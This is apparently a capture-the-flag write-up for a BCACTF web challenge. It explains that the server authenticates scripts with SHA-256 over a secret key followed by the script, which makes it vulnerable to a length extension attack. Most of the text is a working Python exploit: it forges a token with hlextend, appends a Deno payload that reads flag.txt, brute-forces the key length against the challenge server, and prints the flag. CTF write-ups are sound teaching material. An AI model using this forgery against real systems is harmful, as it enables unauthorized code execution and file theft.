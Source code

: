 This immidiately gives it away that the server is prone to [Length Extension Attack](https://en.wikipedia.org/wiki/Length_extension_attack). 

We have a known $\texttt{script}$ and a valid $\texttt{token}$ corresponding to it. Just by using this information, we can generate a $\texttt{script} \mathbin\Vert \texttt{payload}$ with a valid token even without the knowing the $\texttt{secretKey}$.

More on this here:
- [Breaking SHA256: length extension attacks in practice (with Go)](https://kerkour.com/sha256-length-extension-attacks)
- [Length extension attack (with Rust)](https://github.com/marcelo140/length-extension)

There is a catch though. For using this attack, we must know the the exact length of the key. Since we have no way of getting that from the server, we'll just brute force our way till we get a valid response.

I tried implementing these by myself in python, but found out midway that [this](https://github.com/stephenbradshaw/hlextend) exists. After some testing and trial and error by runnning the server locally, I came up with this final script:

## Script
```py
import requests
import hlextend # https://github.com/stephenbradshaw/hlextend

# the unfinished script. 
# this works because it
# has a comment in its end
# so adding any bytes won't
# affect the flow of the script
SCRIPT = rb'''const file = await Deno.readTextFile('sales.txt')

const sales = file.split('\n')

console.log('Number of sales:', sales.length)

// TODO: finish this script'''
TOKEN = 'd649728e5f43a2cf8c6ec863bb48328a060c2f1ddb91976d6d138eac8ab91684'

# notice the newline in the beginning
# this is to get out of the // comment
PAYLOAD = rb'''
console.log(await Deno.readTextFile("flag.txt"));'''

# the key length I found after running this for a while was 31
key_len = 1
sha2 = hlextend.new('sha256')
while True:
    
    NEW_SCRIPT = sha2.extend(PAYLOAD, SCRIPT, key_len, TOKEN)
    NEW_TOKEN  = sha2.hexdigest()

    data = {
        'token': NEW_TOKEN,
        'script': NEW_SCRIPT.decode('raw_unicode_escape'),
    }

    # response = requests.post('http://localhost:5500', data=data)
    response = requests.post('http://challs.bcactf.com:31106/execute', data=data)
    
    if not 'invalid!' in response.text.lower():
        print(f'{key_len=}')
        print(response.text)
        # bcactf{Th1S_I5_JuST_4_l1TtLe_t0o_1N5ECur3_95af828f32}
        break
```